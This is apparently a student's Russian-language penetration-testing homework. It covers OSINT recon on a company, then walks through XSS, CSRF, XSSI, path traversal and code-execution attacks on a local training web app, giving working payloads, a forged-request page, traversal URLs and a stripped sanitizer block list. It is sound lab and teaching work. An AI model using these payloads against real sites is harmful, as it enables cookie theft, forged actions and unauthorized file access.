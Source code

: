 # Домашнее задание к занятию «Penetration Testing. Часть 1»
### Задание 1

После использования утилиты theHarvester было найдено
7 e-mail адресов и 2 домена.
![](pic/theharvester-scan.png)

После поиска результатов на Censys, было найдено 9 ip-адресов, включая адреса головной компании, почтовые сервера, ip-телефония, открытые ssh порты.

![](pic/censys-scan.png)

Так же есть результаты поиска документов в общем доступе:   
![](pic/google-file-search.png)

------
## Задание 2
### XSS
Смотрим как система реагирует на несуществующую страницу:  
`http://localhost:8008/452002223606703030856276251408421215266/test`  
![](pic/xss-test-url.png)

 Далее используем XSS локатор из [OWASP CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.md)  

Локатор:  
 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`  

XSS:  
 `http://localhost:8008/530192841835716474238212610358927358482/%3Csvg/onload=alert(document.cookie)//'%3E`

 ![](pic/xss.png)  

------
 ### XSRF

На портале есть возможность добавления пользовательских сниппетов. При просмотре списка сниппетов есть кнопки удаления сниппетов и запрос вида  
`http://localhost:8008/530192841835716474238212610358927358482/deletesnippet?index=0`

Если заставить пользователя пройти по ссылке и провести атаку через хранимую XSS можно удалить сниппет от имени пользователя.  

![](pic/xsrf-snippet-list.png)  

Создаем страницу со скрытой ссылкой  
```
<link href="http://localhost:8008/551451167496643649739844506544308983555/deletesnippet?index=0" rel="stylesheet noreferrer" type="text/css">
<iframe width="1000px" height="1000px" src="http://localhost:8008/551451167496643649739844506544308983555/snippets.gtl"></iframe>
```

![](pic/xsrf-example.png)  

 ------

 ### XSSI
Создаем страницу с подключением скрипта `feed.gtl`  
На своей странице переопределяем функцию `_feed`  
```
<script>
    function _feed(data) {
      alert("Private user data: " + JSON.stringify(data));
    }
</script>
<script src="http://localhost:8008/551451167496643649739844506544308983555/feed.gtl"></script>
```
![](pic/xssi-example.png)

 ------

 ### Path traversal

Создаем двух пользователей `test`, `hacker`  
Добавляем файлы для обоих пользователей.  
![](pic/path-traversal-upload-file.png)

Далее пытаемся читать чужой файл составляя ссылку по аналогии со своей.  

```
http://localhost:8008/551451167496643649739844506544308983555/test/secret.txt
```

![](pic/path-traversal-test_secret.png)  

Можно читать файлы из корневой директории программы  
Пример запроса:  
```
http://localhost:8008/551451167496643649739844506544308983555/hacker%2F..%2F..%2Fsecret.txt
```
![](pic/path-traversal-secret.png)  

 ------

 ### Code Execution

Создаем пользователя с именем `..`  
Редактируем файл `sanitize.py`, удаляем ограничения на атрибуты событий:  
```
disallowed_attributes = [
      'onblur', 'onchange', 'onclick', 'ondblclick', 'onfocus',
      'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmousedown',
      'onmousemove', 'onmouseout', 'onmouseup', 'onreset',
      'onselect', 'onsubmit', 'onunload'
  ]
```
Загружаем измененный файл и перезагружаем сервер 
вызвав метод сервера  
 `def _DoQuitserver(self, cookie, specials, params)`  

![](pic/code-execution-file-upload.png)  
![](pic/code-execution-quitsrv.png)  



Создаем новый сниппет:  
`<i onmouseup="alert(document.cookie)">Focus</i>`  

![](pic/code-execution-new-snippet.png)

Проверяем изменения:  
![](pic/code-execution-example.png)



------



